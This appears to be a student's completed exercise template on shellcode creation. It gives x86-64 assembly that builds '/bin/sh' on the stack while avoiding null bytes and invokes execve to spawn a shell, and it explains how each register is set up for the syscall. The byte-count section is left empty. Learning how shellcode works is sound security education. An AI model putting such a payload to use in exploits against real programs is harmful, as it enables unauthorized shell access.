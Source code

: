 ## ShellCode Creation
# A code block containing your assembly instructions for your shellcode 
```
.text
.global _start
_start:
	movabsq $0x68732f6e69622f20, %rax /* move 64 bits into rax */
	shr $8, %rax /* remove null terminators by shifting down 8 bits */
	pushq %rax /* push the above -> stack /bin/sh\0 [1st arg] */
	
	/* rdi holds 1st arg of func */
	/* pointer to path to be executed */
	movq %rsp, %rdi /* /bin/sh to rdi */
	
	/* rsi holds 2nd arg of func array of command line args */
	/* array of command line args to pass */
	xorq %rax, %rax /* set to 0 */
	pushq %rax /* push null terminator -> stack */
	pushq %rdi /* push /bin/sh -> stack */
	movq %rsp, %rsi /* point (mov) /bin/sh to rsi */
	
	/* rdx 3rd arg of env var */
	/* no environment variables to pass */
	movq %rax, %rdx /* set to 0 */
	
	addq $0x3b, %rax /* move execve into rax */
	
	syscall
	
	leave
	ret
	
```


# A step-by-step explanation of your assembly code and how it sets up the system call 
To execute : execve (char *pathname, char **argv, char **envp) 

pathname : /bin/sh	|	argv : [ /bin/sh, NULL] 	| 	envp : NULL

execve id = 59 [ 0x3b ]

	RAX |  0x3B
	RDI | bin/sh_addy
	RSI | null_addy
	RDX | null_addy



# Report how many bytes total are in your assembly, and include the whole thing in ascii 


